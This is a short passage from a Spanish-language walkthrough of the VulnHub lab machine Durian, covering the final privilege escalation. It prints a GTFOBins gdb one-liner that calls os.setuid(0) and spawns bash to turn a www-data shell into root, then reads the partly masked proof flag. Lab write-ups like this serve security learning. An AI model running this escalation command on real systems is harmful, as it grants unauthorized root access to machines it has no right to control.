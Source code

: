 
Ejecutamos el comando que encontramos en GTFOBins y obtenemos shell con privilegios de root

```bash
www-data@durian:/tmp$ gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
root@durian:/tmp# whoami
root
```
Ya sólo no queda acceder al directorio `/root` donde se encuentra la flag que demuestra que hemos comprometido la máquina víctima

```bash
root@durian:/root# ls
proof.txt
root@durian:/root# cat proof.txt 
SunCSR_Team.af6d45da1f1181347***************
```

Hemos completado la máquina **Durian** de VulnHub!! Happy Hacking!!
